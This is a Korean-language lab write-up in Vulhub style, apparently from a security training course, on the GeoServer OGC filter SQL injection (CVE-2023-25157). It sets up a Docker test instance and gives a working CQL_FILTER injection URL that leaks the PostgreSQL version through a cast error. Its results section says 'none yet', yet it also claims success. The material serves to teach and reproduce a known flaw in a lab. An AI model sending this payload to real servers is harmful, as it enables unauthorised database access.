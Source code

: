 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
</br>

## 요약
- GeoServer는 Java로 작성된 오픈 소스 소프트웨어 서버로, 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공합니다.
- GeoServer는 지리정보시스템(GIS) 데이터베이스, 웹 기반 데이터, 개인 데이터세트 등 다양한 소스의 지리공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.
- 2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었습니다.

References:

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

## 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.
</br>

## 테스트
취약점을 익스플로잇하기 전에 먼저 PostGIS 데이터 저장소가 포함된 워크스페이스를 찾아야 합니다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 있습니다:
- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

아래 간단한 URL을 통해 서버를 익스플로잇 할 수 있습니다:
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

</br>

## 결과
아직 없음
![](result1.JPG) | ![](result2.JPG)
![](result3.png)

As you can see, the version of PostgreSQL has been retrieved from GeoServer by SQL injection.
